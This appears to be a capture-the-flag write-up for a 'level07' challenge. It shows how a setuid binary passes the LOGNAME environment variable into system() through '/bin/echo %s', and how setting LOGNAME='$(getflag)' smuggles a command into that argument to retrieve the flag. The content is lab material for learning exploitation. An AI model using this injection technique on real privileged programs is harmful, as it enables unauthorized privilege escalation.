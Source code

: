 # Level07
## Step by step
### 1. Locate files in `level07` home directory
  ```bash
  > ls -la
  -rwsr-sr-x 1 flag07  level07 8805 Mar  5  2016 level07
  ```
---

### 2. Analyze the `level07` executable
Execute the binary:
  ```
  > ./level
  level07
  ```
Using the `strings` command to inspect the binary reveals some useful details
  ```
  > strings level07
  /lib/ld-linux.so.2
  zE&9qU
  __gmon_start__
  libc.so.6
  _IO_stdin_used
  setresgid
  asprintf
  getenv
  setresuid
  system
  getegid
  geteuid
  __libc_start_main
  GLIBC_2.0
  PTRh 
  UWVS
  [^_]
  LOGNAME
  /bin/echo %s 
  ;*2$"
  ```
The binary uses:
- `/bin/echo`
- The environment variable `LOGNAME`
- The `getenv` function to retrieve the value of `LOGNAME`

---

### 3. Exploit the `level07` executable
The environment contains the variable `LOGNAME=level07`. By modifying this variable to execute `getflag`, we can retrieve the flag.
  ```bash
  > export LOGNAME='$(getflag)'
  > ./level07
  Check flag.Here is your token : XXX
  ```
  
